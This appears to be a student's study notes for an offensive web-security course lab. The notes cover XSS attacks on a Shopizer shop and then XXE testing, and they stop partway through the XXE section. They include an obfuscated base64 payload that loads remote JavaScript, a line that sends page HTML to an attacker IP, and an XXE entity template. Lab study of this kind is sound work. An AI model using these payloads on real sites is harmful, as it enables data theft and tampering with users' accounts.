 Now that we have our payload, we'll save it to the xss.js file we created earlier and start the HTTP server.

```bash
┌──(root💀gobots)-[23Dec2024 22:43:29]-[/home/kali/SUT/OSWA/xss]
└─# vim xsscinco2.js

kali@kali:~$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Let's test this payload out on our own account. Let's first browse to `http://shopizer:8080/shop/customer/dashboard.html` to make sure our session is still valid. If it's not, we'll need to log in again.

Next, let's visit the "Handbags" section and load our exploit URL, which will load the malicious JavaScript file from our Kali machine. The payload again will be `'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvMi5qcycpCg==')))+'`

show `http server` getting a hit
![[Pasted image 20241223174632.png]]
The web page does not include any indication of whether our payload worked. If we check the HTTP history tab in Burp Suite, we should find that our POST request was sent.

We can verify the changes were saved by returning to the "My Account" page and clicking `Billing & shipping information`.

![[Pasted image 20241223174900.png]]
###### Payload 9 - `window.location.href = "http://192.168.48.6/a?b=" + btoa(document.body.innerHTML);`
- Grabs the entire pages `HTML` with `(innerHTML)`
- base64 encodes it `(btoa)`
- sends it as a query parameter `(?b=?)` to a server at `192.164.48.6`

payload.js
- make sure to add correct `http.server`port because it has to feed the data back to it
```bash
window.location.href="http://192.168.45.181:8000/a?b=" + btoa(window.document.body.innerHTML);
```
xss
```bash
<script src="http://192.168.45.181:8000/payload.js"></script>
```
##### XML External Entity (XXE)

###### Mentor - Payloads at bottom
when navigating to `Trainers` identified `export ` and `import` which typically means `XXE`
![[Pasted image 20241209173748.png]]
clicking `export` gives us an example of what the `XXE` looks like
![[Pasted image 20241209174224.png]]
now we need to find the vulnerable field
example payload to adjust for testing, the `&xxe;` is how you test for each field - when you see `/etc/passwd` that is the vulnerable field
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
```